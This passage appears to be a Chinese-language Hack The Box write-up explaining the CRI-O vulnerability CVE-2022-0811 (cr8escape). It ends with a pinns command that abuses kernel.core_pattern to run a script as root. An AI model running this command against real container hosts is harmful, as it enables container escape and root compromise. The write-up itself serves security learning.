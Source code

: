 ![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2030.png)

但是输入相关得参数却不是

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2031.png)

带exploit关键词搜，会搜到这篇[文章](https://www.crowdstrike.com/blog/cr8escape-new-vulnerability-discovered-in-cri-o-container-engine-cve-2022-0811/)，得知是CVE-2022-0811

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2032.png)

确认版本号：

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2033.png)

### CVE-2022-0811

即使有大佬博客的学习，但持续性的啃hard的box，我差点啃不下去了……

不过该看还是得看。

> 0xdf：It is a vulnerability in the CRI-O container engine, an open source container engine which can replace Docker in Kubernetes implementation such as OpenShift.
> 

产生漏洞的原因是在 `version 1.19` 里盲目的添加了 sysctl的支持，而没有做内核参数绑定校验（如图，刚那篇文章里的）

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2034.png)

参考：[https://docs.kernel.org/admin-guide/sysctl/](https://docs.kernel.org/admin-guide/sysctl/)  这里我们要想办法利用该漏洞滥用sysctl的特性拿到root access

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2035.png)

这里设置

- `kernel.shm_rmid_forced=1`
- `kernel.core_pattern=|[script] #`

之所以是 `|` 开头看文档描述：

```diff
If the first character of the pattern is a ‘|’, the kernel will treat the rest of the pattern as a command to run. The core dump will be written to the standard input of that program instead of to a file.
```

首先在exploit前先确认原始的参数值

![20230402](https://raw.githubusercontent.com/1dayluo/PicGo4Blog/main/2023_4/20230402%2036.png)

运行命令

```diff
pinns -s 'kernel.shm_rmid_forced=1'+'kernel.core_pattern=|/tmp/exp.sh #' -f filename -d /dev/shm -U
```
